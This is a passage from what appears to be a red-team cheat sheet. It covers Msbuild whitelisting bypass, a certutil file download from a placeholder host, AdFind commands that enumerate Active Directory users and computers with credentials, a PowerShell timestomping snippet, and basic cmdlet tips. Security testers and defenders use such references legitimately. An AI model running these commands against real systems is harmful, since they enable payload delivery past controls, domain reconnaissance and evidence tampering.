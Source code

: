 ```
13. Msbuild.exe
    http://subt0x10.blogspot.com/2016/09/bypassing-application-whitelisting.html
```

### Certutil

https://gist.github.com/subTee/7937a8ef07409715f15b84781e180c46

File download

```
    certutil -urlcache -split -f http://example.com/file
```

### Active Directory Enumeration

#### Adfind

www.joeware.net/freetools/tools/adfind/

```
    AdFind.exe -u account@domain.com -up password -h 10.4.128.40:389 -b dc=domain,dc=com -f "objectcategory=computer" > domain_computers.txt

    AdFind.exe -u account@domain.com -up password -h 10.4.128.40:389 -b dc=domain,dc=com -f "objectcategory=computer" distinguishedName dNSHostName description whenchanged operatingSystem operatingSystemVersion > domain_computers_light.txt

    AdFind.exe -u account@domain.com -up pass -h 10.4.128.40:389 -b dc=domain,dc=com -f "objectcategory=user" samaccountname description pwdlastset orclcommonattribute > domain_users_light.txt
```

### Powershell

List help for cmdlet: `Get-Help [cmdlet] -full`

List available properties and methods: `Get-Member`

For-each loop: `ForEach-Object { $_ }`

Search for string (like grep): `Select-String -path [file] -pattern [string]`

Timestomp

```
    $file=(gi c:\file.exe);
    $date='01/03/2009 12:12 pm';
    $file.LastWriteTime=$date;
    $file.LastAccessTime=$date;
    $file.CreationTime=$date
```

Show last system boot time

```
    Get-WmiObject win32_operatingsystem | select csname, @{LABEL='LastBootUpTime'; EXPRESSION={$_.ConverttoDateTime($_.lastbootuptime)}}
```
